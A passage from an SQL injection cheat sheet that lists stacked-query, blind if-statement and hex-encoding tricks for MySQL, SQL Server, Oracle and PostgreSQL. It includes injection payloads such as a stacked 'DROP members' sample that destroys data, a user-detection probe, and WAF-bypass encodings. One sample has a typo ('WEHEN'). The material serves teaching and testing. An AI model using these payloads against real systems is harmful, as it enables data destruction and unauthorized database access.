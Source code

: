 **green:** supported, **dark gray:** not supported, **light gray:** unknown

![SQL Injection Cheat sheet ](https://dpsvdv74uwwos.cloudfront.net/statics/img/blogposts/SQL-Cheat-Sheet.jpg)

**About MySQL and PHP;**   
To clarify some issues;   
**PHP - MySQL doesn't support stacked queries**, Java doesn't support stacked queries (_I'm sure for ORACLE, not quite sure about other databases_). _Normally MySQL supports stacked queries but because of database layer in most of the configurations it's not possible to execute a second query in PHP-MySQL applications or maybe MySQL client supports this, not quite sure. Can someone clarify?_

##### Stacked SQL Injection Attack Samples

-   ID: `10;DROP members --`
-   `SELECT * FROM products WHERE id = 10; DROP members--`

This will run _DROP members_ SQL sentence after normal SQL Query.

### If Statements

Get response based on an if statement. This is **one of the key points of Blind SQL Injection**, also can be very useful to test simple stuff blindly and **accurately**.

#### MySQL If Statement

-   `IF(**_condition_,_true-part_,_false-part_**)` (M) `SELECT IF(1=1,'true','false')`

#### SQL Server If Statement

-   `IF **_condition_** **_true-part_** ELSE **_false-part_**` (S)   
    `IF (1=1) SELECT 'true' ELSE SELECT 'false'`

#### Oracle If Statement

-   `BEGIN  
    IF **_condition_** THEN **_true-part_**; ELSE **_false-part_**; END IF; END;` (O)   
    `IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END;`

#### PostgreSQL If Statement

-   `SELECT CASE WHEN **_condition_** THEN **_true-part_** ELSE **_false-part_**` END; (P)   
    `SELECT CASE WEHEN (1=1) THEN 'A' ELSE 'B'END;`

##### If Statement SQL Injection Attack Samples

`if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0` (S)   
This will throw an **divide by zero error** if current logged user is not **"sa" or "dbo"**.

### Using Integers

Very useful for bypassing, **magic\_quotes() and similar filters**, or even WAFs.

-   `0x_HEXNUMBER_` (SM)   
    You can  write hex like these;   
      
    `SELECT CHAR(0x66)` (S)   
    `SELECT 0x5045` (_this is not an integer it will be a string from Hex_) (M)   
    `SELECT 0x50 + 0x45` (_this is integer now!_) (M)
